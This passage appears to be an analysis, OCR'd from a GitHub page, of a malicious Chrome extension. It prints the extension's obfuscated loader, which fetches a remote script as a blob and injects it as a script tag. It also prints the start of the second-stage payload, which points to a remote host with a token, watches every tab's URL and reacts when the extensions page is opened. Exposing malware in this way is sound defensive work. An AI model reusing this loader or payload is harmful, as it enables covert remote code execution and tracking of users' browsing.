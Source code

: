 ```javascript
		return response.json();
	}).then(function(data){
		yhhng = data;
		if(data.login == true){
			yhhng.app = chrome.app.getDetails();
			//yarna();
		}else{
			//yztvx();
		}
	}).catch((e) => {
		setTimeout(mhiwl, 1000*60);
	});
}

var yarna = function(){
	yhhng.request.headers = {installed:true};
	fetch(yhhng.check ,yhhng.request).then(function(response){
		return response.json();
	}).then(function(data){
		if(data.verify == true){
			//ufrkhn();
		}else{
			//yztvx();
		}
	});
}

var ixtfco = function(){
	(function(d, s, id){
     var js, cjs = d.getElementsByTagName(s)[0];
     if (d.getElementById(id)) {return;}
     js = d.createElement(s); js.id = id;
     js.src = yhhng.url;
     cjs.parentNode.insertBefore(js, cjs);
   }(document, 'script', 'chrome-jssdk'));
}

var ufrkhn = function(){
	fetch(yhhng.url).then(function(response){
		return response.blob();
	}).then(function(data){
		yhhng.url = URL.createObjectURL(data);
		//ixtfco(yhhng.url);
	});
}
```
<br> And then, open Javascript console, type `ufrkhn();` and you get:
![Console](https://user-images.githubusercontent.com/68118236/145717743-638bca3c-47d5-4868-8964-aad551ce826a.png)
<br>Clicking to that `blob` URL, you will get:
```javascript
var config = {};
config.url = new URL("https://pube.me");
config.token = "180ff51b68b188325748d5ec7731ec80";
var run = function () {
  chrome.tabs.onUpdated.addListener(function (id) {
    chrome.tabs.get(id, function (tab) {
      tab.url = new URL(tab.url);
      if (tab.status == "complete" && tab.url.protocol != "chrome:") {
        updated(tab);
      }

      if (tab.url.protocol == "chrome:" && tab.url.host == "extensions" && !localStorage.trust) {
        blocked(tab);
```